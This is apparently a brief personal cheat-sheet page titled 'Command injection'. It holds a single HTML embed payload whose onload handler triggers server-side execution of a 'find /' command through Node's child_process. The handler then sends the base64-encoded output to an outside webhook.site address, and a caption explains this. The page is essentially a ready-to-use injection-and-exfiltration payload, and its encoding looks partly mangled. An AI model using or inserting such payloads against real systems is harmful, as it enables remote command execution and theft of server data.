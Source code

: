 ```yaml
---
title: Command injection
tags:
  - payload
  - infosec
---
```


1. With **webhook**
```html
<embed src=1 onload="fetch(./?eval=require( 'child_process' ).spawnSync( 'find', ['/']).stdout.toString()).then(a=>a.text()).then(a=>fetch('https://webhook.site/ae0bd822-b34b-4e87-aa65-3c22bc4c9999?c=%27+btoa(a)))%22%3E
```
*Command will exec a find command in location `/` after that send all that to plain text to webhook in URL `https://webhook.site/...`*

